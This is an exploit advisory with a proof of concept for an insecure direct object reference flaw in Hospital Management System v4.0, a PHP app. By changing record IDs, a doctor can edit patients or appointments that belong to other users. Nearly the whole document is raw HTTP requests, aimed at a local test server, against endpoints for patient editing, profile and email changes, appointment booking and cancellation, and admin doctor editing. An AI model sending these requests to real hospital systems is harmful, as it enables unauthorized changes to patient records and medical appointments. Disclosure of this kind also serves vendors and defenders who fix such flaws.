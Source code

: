# Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to update patient who is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/edit-patient.php?editid=2(CHANGE HERE) HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```



POST /hospital/hms/edit-profile.php HTTP/1.1
Host: localhost:8190
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/edit-profile.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

fname=user1&address=aaaaaa&city=abbb&gender=male&uemail=user2%40test.com&submit=


POST /hospital/hms/change-emaild.php HTTP/1.1
Host: localhost:8190
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/change-emaild.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

email=user2%40test.com&submit=


POST /hospital/hms/book-appointment.php HTTP/1.1
Host: localhost:8190
Content-Length: 93
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/book-appointment.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

Doctorspecialization=Orthopedics&doctor=4&fees=0&appdate=2023-12-30&apptime=9%3A00+PM&submit=

GET /hospital/hms/appointment-history.php?id=6&cancel=update HTTP/1.1
Host: localhost:8190
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/appointment-history.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close



GET /hospital/hms/doctor/appointment-history.php?id=3&cancel=update HTTP/1.1
Host: localhost:8190
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/doctor/appointment-history.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close


POST /hospital/hms/admin/edit-doctor.php?id=4 HTTP/1.1
Host: localhost:8190
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/admin/edit-doctor.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

Doctorspecialization=Orthopedics&docname=user1d&clinicaddress=aaaaaa&docfees=20&doccontact=123456&docemail=user1d%40test.com&submit=

